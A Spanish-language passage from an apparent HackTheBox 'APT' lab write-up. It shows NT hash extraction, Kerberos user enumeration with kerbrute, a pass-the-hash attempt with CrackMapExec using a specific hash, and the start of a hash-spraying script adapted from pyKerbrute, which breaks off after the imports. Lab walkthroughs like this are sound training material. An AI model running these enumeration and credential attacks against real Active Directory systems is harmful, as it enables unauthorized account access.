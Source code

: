 1. creamos un fichero de hashes NT

    ```bash
    cat data | awk '{print $4}' FS=":" > hash
    ```

Aqui vamos a intentar bruteforcear los usuarios con kerbrute.

### Kerbrute {-}

Aqui vamos a tirar del **kerbrute** para tratar de brueforcear el Kerberos para conocer los usuarios validos

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build -ldflags "-s -w" .
upx kerbrute
```

Ya podemos enumerar los usuarios 

```bash
./kerbrute userenum --dc apt -d htb.local ../users
```

Aqui vemos que hay un usuario **henry.vinson@htb.local** que es valido.

Si intentamos un pass the hash con este usuario

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H '2de80758521541d19cabbba480b260e8f'
```

Vemos que el hash no es valido. Aqui intentamos ver si el hash de este usuario esta en la lista de los hashes pero como kerbrute o otra heramientas
como pyKerbrute no nos permiten hacer un bruteforce de hashes, nos creamos nuestro proprio script en python

> [ ! ] NOTAS: podriamos intentar bruteforcear hashes con smb con el comando `poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H /home/s4vitar/Desktop/APT/content/hash` pero 
se bloquea a partir de unos cuantos hash (seguridad de smb). 

### Script de bruteforce de hashes {-}

Aqui en vez de crear nuestro script desde zero, uzamos el script en python de [pyKerbrute](https://github.com/3gstudent/pyKerbrute) y la modificamos
El script que nos interessa es el ADPwdSpray.py.

```python
#!/usr/bin/python
import sys, os
import socket, signal
from pwn import *
from random import getrandbits
from time import time, localtime, strftime
from pyasn1.type.univ import Integer, Sequence, SequenceOf, OctetString, BitString, Boolean
from pyasn1.type.char import GeneralString
from pyasn1.type.useful import GeneralizedTime
from pyasn1.type.tag import Tag, tagClassContext, tagClassApplication, tagFormatSimple
from pyasn1.codec.der.encoder import encode
from struct import pack, upack
from pyasn1.type.namedtype import NamedTypes, NamedType, OptionalNamedType
from _crypto import ARC4, MD5, MD4
from time import time, gmtime, strftime, strptime, localtime
import hmac as HMAC
from random import getrandbits, sample
```